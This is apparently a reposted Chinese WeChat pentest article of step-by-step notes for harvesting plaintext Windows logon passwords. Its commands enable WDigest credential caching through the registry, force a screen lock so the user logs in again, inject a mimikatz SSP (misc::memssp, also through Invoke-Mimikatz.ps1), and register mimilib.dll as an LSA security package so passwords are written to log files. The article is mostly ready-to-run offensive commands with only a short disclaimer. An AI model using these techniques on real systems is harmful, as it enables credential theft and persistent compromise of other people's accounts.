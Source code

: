 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/HSZbQijsXNxnRqvfKcPq8A)
| 

**声明：**该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。

 |

  

**0x01 前言**

这篇文章来自朋友@Leafer(阿宝)日常测试笔记，文中没有过多介绍其理论知识，大家可以自己去学习了解一下！

  

**0x02 改注册表（mimitaze存在免杀问题）**

**PASS：**需要锁屏等方式

  

修改成记录明文密码

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfUjeibUYPGbGvBElcr5pJX82MeMZyMFHBjMtjgZvEW7UYicRNJhRav9sx6vTGQBkzFU0KLe6rBp5Zg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

修改不记录明文密码

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

  

锁屏

```
rundll32.exe user32.dll,LockWorkStation
```

  

修改完之后使用命令锁屏，接下来等待用户再次登录一次就可以抓到了

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

****0x03 mimikatz插ssp记录密码****

**PASS：**需要锁屏等方式

  

使用mimikatz的一个功能：

```
privilege::debug、misc::memssp
```

  

修改完之后使用以下命令锁屏，等用户进入后就可以在C:\Windows\System32\mimilsa.log里面存储登录的密码

```
rundll32.exe user32.dll,LockWorkStation
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**0x04 使用Invoke-Mimikatz.ps1**

**PASS：**需要锁屏等方式

```
`Import-Module .\Invoke-Mimikatz.ps1  //导入命令``Invoke-Mimikatz -Command "misc::memssp"  //不需要重启获取` `记录的明文密码存储在这个路径下`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
`凭据收集总结：``https://cloud.tencent.com/developer/article/1656546`
```

  

**0x05 复制mimilib.dll+修改注册表**

**PASS：**需要重新启动系统

  

(1) 在mimikatz中有32和64两个版本，安装包里分别都带有不同位数的mimilib.dll

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

(2) 将对应版本的dll文件复制到 c:\windows\system32下

  

(3) 将以下注册表位置中Security Packages的值设置为mimilib.dll

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "Security Packages" /t REG_MULTI_SZ /d mimilib.dll /f
```

  

(4) 等待系统重启后，在c:\windows\system32生成文件kiwissp.log，记录当前用户的明文口令

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
`渗透技巧-通过CredSSP导出用户的明文口令：``https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E9%80%9A%E8%BF%87CredSSP%E5%AF%BC%E5%87%BA%E7%94%A8%E6%88%B7%E7%9A%84%E6%98%8E%E6%96%87%E5%8F%A3%E4%BB%A4/`
```